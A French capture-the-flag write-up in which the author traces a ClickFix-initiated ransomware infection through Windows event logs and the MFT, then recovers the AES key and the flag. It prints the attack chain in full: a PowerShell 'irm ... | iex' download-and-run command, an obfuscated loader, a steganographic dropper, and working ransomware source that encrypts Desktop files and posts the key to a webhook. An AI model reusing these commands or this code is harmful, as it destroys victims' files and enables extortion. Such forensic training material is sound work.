# Résolution du challenge 'Skill_Issue.exe'


*Cheminement de l'attaque - SkillIssue.exe*

## Introduction :

À partir des fichiers récupérés via divers outils de DFIR, le joueur doit comprendre une attaque ransomware sur un poste, initiée par une primoinfection de type « ClickFix ». Le challenge repose sur le déchiffrement des données contenues dans les fichiers chiffrés et l'extraction des informations utiles, en exploitant une *faille* dans le processus d'attaque.

## Cheminement pour résoudre le challenge : 

Pour récupérer davantage de contexte, le joueur doit d'abord examiner les traces forensiques de la victime afin de comprendre les actions effectuées sur sa machine. Pour cela, il est possible d'analyser les journaux d'événements Windows (EVTX) et d'y appliquer des règles SIGMA pour balayer rapidement l'ensemble des événements.

On commence par décompresser l'archive fournie :

```bash
tar -xf extraits_forensique_victime.tar
```

Un répertoire 'D' se crée alors (il s'agit de la lettre du disque sur lequel les informations ont été récupérées). Un simple `ls` permet d'explorer l'arborescence :

```
D:

'$Boot'  '$Extend'  '$LogFile'  '$MFT'  '$Secure_$SDS'   ProgramData  'Program Files'   Users   Windows
```

En fouillant un peu, on observe que les fichiers EVTX se trouvent dans le répertoire `Windows/System32/winevt/logs/`. On peut alors utiliser un outil comme `Hayabusa` (https://github.com/Yamato-Security/hayabusa) pour les traiter :

```bash
./hayabusa csv-timeline -d D/Windows/System32/winevt/logs/ -o hayabusa-output.csv -H report.html
```

Le rapport révèle plusieurs événements suspects, notamment la désactivation du service Windows Defender et plusieurs téléchargements effectués via PowerShell :



On confirme avec le rapport csv qu'une commande powershell suspiscieuse a été lancée :



```powershell
powershell.exe -NoProfile -ep Bypass -Command "irm https://dynamic-mandazi-2a6e66.netlify.app/assets/better.ps1 | iex"
```

On tente alors de récupérer la charge sur Internet avec la même URL :

```bash
wget https://dynamic-mandazi-2a6e66.netlify.app/assets/better.ps1 -O malicious.ps1
```

En lisant le script, on comprend rapidement qu'il est rempli de faux textes, conçus pour faire croire à l'utilisateur que des actions s'exécutent sur son poste :

```powershell
Write-Host "Optimisation des performances en cours..."
Start-Sleep -Seconds 2

Write-Host "Augmentation de la vitesse du processeur..."
Start-Sleep -Seconds 1
```

Une partie du script, cependant, doit attirer l'attention car elle est légèrement obfusquée :

```powershell
$url = $($k7540='[yGv@Xe^';$b=[byte[]](0x33,0x0D,0x33,0x06,0x33,0x62,0x4A,0x71,0x3C,0x10,0x33,0x1E,0x35,0x3A,0x4B,0x3D,0x34,0x14,0x68,0x34,0x3A,0x10,0x04,0x3D,0x30,0x03,0x68,0x25,0x2F,0x35,0x00,0x11,0x3D,0x2D,0x2F,0x13,0x06,0x31,0x0B,0x3B,0x28,0x0D,0x04,0x19,0x24,0x3D,0x2A,0x30,0x1E,0x18,0x35,0x02,0x28,0x30,0x0D,0x36,0x33,0x11,0x2F,0x1E,0x28,0x30,0x0D,0x36,0x33,0x11,0x2F,0x59,0x32,0x39,0x12,0x71,0x29,0x1C,0x21,0x05,0x6F,0x30,0x00,0x3F,0x3F,0x0A,0x68,0x1B,0x21,0x31,0x0B,0x71,0x29,0x16,0x25,0x03,0x38,0x07,0x16,0x2A,0x29,0x16,0x29,0x11,0x6E,0x3D,0x1D,0x3B);$kb=[System.Text.Encoding]::UTF8.GetBytes($k7540);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])}))
 
$slu = $($k6571=186;$b=[byte[]](0xe6,0xea,0xd3,0xd9,0xce,0xcf,0xc8,0xdf,0xc9,0xe6,0xc8,0xd5,0xd8,0xcf,0xc2,0xe5,0xc9,0xce,0xc8,0xd5,0xd4,0xdd,0x94,0xdf,0xc2,0xdf);-join($b|%{[char]($_-bxor$k6571)}))
$dlaa = "$env:USERPROFILE"
 
$dl = $dlaa + $slu
if ((Get-Random -Minimum 1000 -Maximum 5000) -lt 0) {
    $osInfo = Get-CimInstance -ClassName Win32_OperatingSystem; Write-Verbose "OS Version: $($osInfo.Caption), Build: $($osInfo.BuildNumber)"
}
[int]'9' | Out-Null
  
Invoke-WebRequest -Uri $url -OutFile $dl
Start-Process -FilePath $dl -Wait
Remove-Item $dl
```

On peut déobfusquer le script en affichant uniquement la sortie via un interpréteur PowerShell en ligne comme `tio.run` (https://tio.run/#powershell) avec les commandes Write-Output :

```powershell
$url = $($k7540='[yGv@Xe^';$b=[byte[]](0x33,0x0D,0x33,0x06,0x33,0x62,0x4A,0x71,0x3C,0x10,0x33,0x1E,0x35,0x3A,0x4B,0x3D,0x34,0x14,0x68,0x34,0x3A,0x10,0x04,0x3D,0x30,0x03,0x68,0x25,0x2F,0x35,0x00,0x11,0x3D,0x2D,0x2F,0x13,0x06,0x31,0x0B,0x3B,0x28,0x0D,0x04,0x19,0x24,0x3D,0x2A,0x30,0x1E,0x18,0x35,0x02,0x28,0x30,0x0D,0x36,0x33,0x11,0x2F,0x1E,0x28,0x30,0x0D,0x36,0x33,0x11,0x2F,0x59,0x32,0x39,0x12,0x71,0x29,0x1C,0x21,0x05,0x6F,0x30,0x00,0x3F,0x3F,0x0A,0x68,0x1B,0x21,0x31,0x0B,0x71,0x29,0x16,0x25,0x03,0x38,0x07,0x16,0x2A,0x29,0x16,0x29,0x11,0x6E,0x3D,0x1D,0x3B);$kb=[System.Text.Encoding]::UTF8.GetBytes($k7540);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])}))
 
$slu = $($k6571=186;$b=[byte[]](0xe6,0xea,0xd3,0xd9,0xce,0xcf,0xc8,0xdf,0xc9,0xe6,0xc8,0xd5,0xd8,0xcf,0xc2,0xe5,0xc9,0xce,0xc8,0xd5,0xd4,0xdd,0x94,0xdf,0xc2,0xdf);-join($b|%{[char]($_-bxor$k6571)}))
$dlaa = "$env:USERPROFILE"

$dl = $dlaa + $slu

Write-Output $url
Write-Output $dl
```

On obtient alors l'URL et l'emplacement de téléchargement du malware :



On peut récupérer la charge à nouveau sur Internet :

```bash
wget https://github.com/BzHackz/SomeOfTheFinestCodeOnEarthhhhhhhhhhhhhhh/raw/refs/heads/main/robux_strong.exe -O malware.exe
```

On confirme qu'il s'agit bien d'un exécutable avec `file` : 
```
malware.exe: PE32+ executable for MS Windows 6.00 (console), x86-64, 7 sections
```

En observant rapidement le contenu avec `strings` pour tenter de récupérer des informations sur l'origine du binaire :

```bash
strings malware.exe |tail
```

On comprend alors qu'il s'agit de Python compilé, via la présence de fichiers `pyz`, `pyd` ainsi que la librairie Python 3.14 (python314.dll) : 

```
bsetuptools\_vendor\importlib_metadata-8.7.1.dist-info\RECORD
bsetuptools\_vendor\importlib_metadata-8.7.1.dist-info\REQUESTED
bsetuptools\_vendor\importlib_metadata-8.7.1.dist-info\WHEEL
bsetuptools\_vendor\importlib_metadata-8.7.1.dist-info\licenses\LICENSE
bsetuptools\_vendor\importlib_metadata-8.7.1.dist-info\top_level.txt
bsetuptools\_vendor\jaraco\text\Lorem ipsum.txt
bunicodedata.pyd
opyi-contents-directory _internal
zPYZ.pyz
:python314.dll
```

On utilise alors un second outil, `pyinstxtractor` (https://github.com/extremecoders-re/pyinstxtractor) pour récupérer les sources Python compilées (au format .pyc) :

```bash
python3 pyinstxtractor/pyinstxtractor.py malware.exe
```

On obtient alors le fichier python compilé du malware `robux_strong.pyc`. On peut ensuite utiliser une plateforme web permettant de récupérer le fichier Python original, comme `pylingual` (https://pylingual.io/) :

```python
_ = lambda __: __import__('zlib').decompress(__import__('base64').b64decode(__[::(-1)]))
exec(_(b'=YPQUN7LsPxxPcTkRm+p4vOzrg8GkonE0flpjvzwxXw14zYK7V+0wrzZaGwt8Ps1Gwe+MMMyuuy4RmqXL/qetIRpjkwY4A/nllrcLDnkIPuWZ8ZvhLS8GD6vCUmtSsPcP5bcueNkcmu37rp5CN15vY0dvckGRKI3pLw6YShOsIPmzTMBhrwxIa8Aai5fHsURiSjoK2AwDDhDLSjhjwSyHO0BbZi1GU8cnOYxTTP7SEjyHuCXz/UU/+V179TzIFzCip9SEnBGp17oi+LDP7LIHjIrfh2xTf+pjv/E0m3TWuDtjJqnf+cIizV+5NhNFbRjQpnFc7j9cDre0k9OJrzK2Nf2XnTVhhoGvhEaSyryQNoQtEZn3t9A8GAlVLVNeh/i14OAGT2kh2/bkqjRMk8/jp7aR4GOT8i9sNJpXBFjKApUGMNCzId5LgAGtCZ+Vy5oV7A6VQ3gTy7HlrWXuJjjTwao6FqroWz/idOQ91UpDvglARQGBdGOxNQPADQCd6Z80qlw01w19x0GpkmDDCmWg598WkAYSpVHbQTnESturk+buVIUHy/0dyYxxniqhfH9mzAyVz1JC1tGSpV0Oz46+k9W9lkFhH9iJ0ZbgzbQizZinpVPfHcgGPttL7B//nhv4JvcrSKJ2c10pX2mqxmABzADKKi3q26TTpNXIldomkeOaYrKqGli+9uhQAzmOG8ktxJe'))
```

On remarque que le code est obfusqué, mais qu'il est possible de le récupérer simplement en remplaçant la directive `exec()` par `print()` :

```python
_ = lambda __: __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]))
print(_(b'=YPQUN7LsPxxPcTkRm+p4vOzrg8GkonE0flpjvzwxXw14zYK7V+0wrzZaGwt8Ps1Gwe+MMMyuuy4RmqXL/qetIRpjkwY4A/nllrcLDnkIPuWZ8ZvhLS8GD6vCUmtSsPcP5bcueNkcmu37rp5CN15vY0dvckGRKI3pLw6YShOsIPmzTMBhrwxIa8Aai5fHsURiSjoK2AwDDhDLSjhjwSyHO0BbZi1GU8cnOYxTTP7SEjyHuCXz/UU/+V179TzIFzCip9SEnBGp17oi+LDP7LIHjIrfh2xTf+pjv/E0m3TWuDtjJqnf+cIizV+5NhNFbRjQpnFc7j9cDre0k9OJrzK2Nf2XnTVhhoGvhEaSyryQNoQtEZn3t9A8GAlVLVNeh/i14OAGT2kh2/bkqjRMk8/jp7aR4GOT8i9sNJpXBFjKApUGMNCzId5LgAGtCZ+Vy5oV7A6VQ3gTy7HlrWXuJjjTwao6FqroWz/idOQ91UpDvglARQGBdGOxNQPADQCd6Z80qlw01w19x0GpkmDDCmWg598WkAYSpVHbQTnESturk+buVIUHy/0dyYxxniqhfH9mzAyVz1JC1tGSpV0Oz46+k9W9lkFhH9iJ0ZbgzbQizZinpVPfHcgGPttL7B//nhv4JvcrSKJ2c10pX2mqxmABzADKKi3q26TTpNXIldomkeOaYrKqGli+9uhQAzmOG8ktxJe'))
```

En modifiant quelques détails, on peut récupérer le code proprement :

```python 
import requests
import wave
import base64
import io
import subprocess
from pathlib import Path
from Crypto.Random import get_random_bytes

def secure_delete(file_path, passes=3):
    file_path = Path(file_path)
    if file_path.is_file():
        length = file_path.stat().st_size
        with open(file_path, "r+b") as f:
            for _ in range(passes):
                f.seek(0)
                f.write(get_random_bytes(length))
        file_path.unlink()  # supprime le fichier

url = "https://api.pillows.su/api/download/bacf9fe4cc2265605f2c60a35798163d"
load = requests.get(url)
wav_mem = io.BytesIO(load.content)

with wave.open(wav_mem, "rb") as w:
    raw_b64 = w.readframes(w.getnframes())

raw_data = base64.b64decode(raw_b64)
key = raw_data[:8]
data = raw_data[8:]

xplt = bytes([
    data[i] ^ key[i % len(key)]
    for i in range(len(data))
])

fname = "funny.exe"
with open(fname, "wb") as funny:
    funny.write(xplt)
proc = subprocess.run([fname], check=True)

secure_delete(fname)
```

En analysant le code, on comprend qu'il récupère un fichier depuis le site `pillows.su`, qui est un fichier sonore au format .wav. Il le charge ensuite en mémoire et extrait, via une technique de stéganographie, une suite de bits dans l'audio pour former le binaire final. Il s'agit d'une technique empruntée au mode opératoire de la TeamPCP (https://www.trendmicro.com/fr_fr/research/26/c/teampcp-telnyx-attack-marks-a-shift-in-tactics.html):




Cette chaîne de bits est ensuite XORée avec une clé contenue elle-même dans l'audio et produit au final un binaire nommé `funny.exe`. Pour le récupérer, on peut simplement réutiliser le code malveillant de base pour qu'il écrive le binaire dans notre répertoire :

```python
import requests
import wave
import base64
import io

url = "https://api.pillows.su/api/download/bacf9fe4cc2265605f2c60a35798163d"
load = requests.get(url)
wav_mem = io.BytesIO(load.content)

with wave.open(wav_mem, "rb") as w:
    raw_b64 = w.readframes(w.getnframes())

raw_data = base64.b64decode(raw_b64)
key = raw_data[:8]
data = raw_data[8:]

xplt = bytes([
    data[i] ^ key[i % len(key)]
    for i in range(len(data))
])

fname = "funny.exe"
with open(fname, "wb") as funny:
    funny.write(xplt)
```

Avec le binaire récupéré, on applique exactement les mêmes procédures que pour l'autre charge utile, puisqu'il s'agit également d'un exécutable Python compilé :

```
pyinstxtractor.py -> pylingual.io -> final.py
```

Ce qui donne le code Python suivant :

```python
import requests
import os
import base64
from pathlib import Path
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Util.asn1 import DerSequence

def secure_delete(file_path, passes=3):
    if file_path.is_file():
        length = file_path.stat().st_size
        with open(file_path, 'r+b') as f:
            for _ in range(passes):
                f.seek(0)
                f.write(get_random_bytes(length))
        file_path.unlink()

file_temp = Path(os.path.join(os.environ['TEMP'], '.k_temp'))

with open(file_temp, 'wb') as f:
    f.write(get_random_bytes(32) + get_random_bytes(16))

desktop = Path(os.path.join(os.environ['USERPROFILE'], 'Desktop'))
list_files = os.listdir(desktop)

with open(file_temp, 'rb') as f:
    data = f.read()
    k = data[:32]
    v = data[32:]

cipher = AES.new(k, AES.MODE_CBC, v)

for filename in list_files:
    file_path = desktop / filename
    if file_path.is_file():
        with open(file_path, 'rb') as f:
            content = f.read()
        encrypted_data = cipher.encrypt(pad(content, AES.block_size))
        with open(file_path.with_suffix(file_path.suffix + '.enc'), 'wb') as f:
            f.write(encrypted_data)
        secure_delete(file_path)

public_key_pem = requests.get('https://raw.githubusercontent.com/BzHackz/SomeOfTheFinestCodeOnEarthhhhhhhhhhhhhhh/refs/heads/main/public.pem').content
rsa_key = RSA.import_key(public_key_pem)
rsa_cipher = PKCS1_OAEP.new(rsa_key)

encrypted_key = rsa_cipher.encrypt(file_temp.read_bytes())
with open(file_temp, 'w') as f:
    f.write(base64.b64encode(encrypted_key).decode('utf-8'))
    f.close()

exfurl = 'https://webhook.site/2b20dbd3-e831-41d6-94d7-a9fdbcb6568f'
data = {'k': base64.b64encode(encrypted_key).decode('utf-8')}
requests.post(exfurl, json=data)
```

Ce script agit comme un ransomware simplifié :

- Il génère une clé AES (32 octets) et un IV (16 octets), stockés temporairement.
- Il parcourt les fichiers du Bureau et les chiffre en AES-CBC, puis supprime les originaux (secure delete). Les fichiers chiffrés récupère une nouvelle extension : `.enc
- Il récupère une clé publique RSA distante.
- Il chiffre la clé AES avec RSA (OAEP). *- Inspiration là également de TTPs de la TeamPCP (voir article)*
- La clé chiffrée est sauvegardée localement (fichier .k_temp dans le répertoire temporaire Windows) et exfiltrée via une requête HTTP.

Résultat : les fichiers sont chiffrés et seule la clé privée RSA permettrait de récupérer la clé AES pour les déchiffrer.

C'est ce que confirment d'ailleurs les fichiers portant l'extension `.enc`, trouvables dans les traces forensiques :

```bash
ls D/Users/chillguy/Desktop/
```

Qui donne : 
```
desktop.ini.enc  'fichier_important!!.txt.enc'   Firefox.exe.enc  'Roblox Player.lnk.enc'  'Roblox Studio.lnk.enc'
```

Pour récupérer les fichiers originaux, on tente alors de chercher si les clés n'ont pas été transférées via l'URL webhook, qui est accessible à tous :

https://webhook.site/#!/view/2b20dbd3-e831-41d6-94d7-a9fdbcb6568f


 
Aucune trace n'est retrouvée. La dernière solution est de se dire que très peu de données ont été écrites dans le fichier temporaire qui stocke la clé AES chiffrée (`.k_temp`), et qu'il sera donc lisible via la MFT (Master File Table). On peut alors utiliser le fichier `$MFT` et l'ouvrir avec un outil de Zimmermann : `MFT Explorer` (https://download.ericzimmermanstools.com/net9/MFTExplorer.zip)



Bingo, on retrouve bien le fichier ainsi que son contenu en ASCII, qui est une chaîne de données en base64 :

```
LRhE3Yqt4y2m24acQZ8WFq6roXc+uzGJqF3pfc82hDciUA2ERQtAhTedzcLooZNs1WMVr56wl5lLpNvHauo07qgfyS8rA9Irk5rATWP5abUNprO2PJwLf6iy1Jn9CaxPySpqTgunBjHSY4ER7axflt71AfxJpup6/ydSv4jofIdAOCYvXqxmXJ5lQ+VWGYgXR9CVffw8QloUqhTpRZ+HBq0OuRoSz3FlMwucmI1rmFRmlJneaDoBHCJ7s9JyuyJAXNPtHCvPu1sncEJxZTF8AWoKgCRPtCvTM+Zg3pSSLuIVqBmqbaqupYoV52Qo4+iE0VtqSDpDzMBwiRyFyV7ilA==
```

En relisant le code du dernier payload, on se souvient que le contenu des clés a été chiffré avec une clé publique RSA nommée `public.pem` : 

```python
public_key_pem = requests.get('https://raw.githubusercontent.com/BzHackz/SomeOfTheFinestCodeOnEarthhhhhhhhhhhhhhh/refs/heads/main/public.pem').content
rsa_key = RSA.import_key(public_key_pem)
rsa_cipher = PKCS1_OAEP.new(rsa_key)

encrypted_key = rsa_cipher.encrypt(file_temp.read_bytes())
with open(file_temp, 'w') as f:
    f.write(base64.b64encode(encrypted_key).decode('utf-8'))
    f.close()
```

On peut alors chercher dans les traces forensiques de la machine attaquante pour voir si on peut effectivement retrouver cette clé dans le chemin ̀`/[root]/home/kali/.ssh` :



On a alors la confirmation que la clé publique se trouve bien sur la machine attaquante, accompagnée de sa clé privée `private.pem`, qui va nous permettre de décoder le reste avec OpenSSL. Pour cela, on décode le base64 précédemment récupéré :

```bash
base64 -d mft_data > data.bin
```

Avec notre nouveau fichier, on utilise alors la clé privée pour en déchiffrer le contenu, avec le bon padding RSA :

```bash
openssl pkeyutl -decrypt -in data.bin -inkey private.pem -pkeyopt rsa_padding_mode:oaep -out extract.out
```

On vérifie qu'on obtient nos clés - 32 octets pour la clé, 16 pour l'IV - en faisant attention au petit boutisme induit par la commande `hexdump` : 



On demande alors à notre IA préférée de nous assister pour récupérer proprement la clé et l'IV, ce qui donne un mini script bash :

```bash
#!/bin/bash
AES_KEY=$(dd if=extract.out bs=1 count=32 2>/dev/null | xxd -p | tr -d '\n')
IV=$(dd if=extract.out bs=1 skip=32 count=16 2>/dev/null | xxd -p | tr -d '\n')

echo "Clé AES : $AES_KEY"
echo "IV : $IV"
```



Finalement, on réutilise `openssl` pour déchiffrer les fichiers impactés par le pseudo-ransomware : 

```bash 
openssl enc -d -aes-256-cbc -K 9ce4ce09fe2f7e78b587e3db4a58f8dc1574988d0e3344e639f611b41b430ee1 -iv 5d04717049291463b1d46557a5351e95 -in fichier_important\!\!.txt.enc -out fichier_dechiffre.txt
```

On obtient le flag dans le fichier `fichier_dechiffre.txt` : 




Flag final : 
```
BZHCTF{Th1s_L0oks_Like_Ex4cTly_As_T3amPCP!!!!!!}
``` 


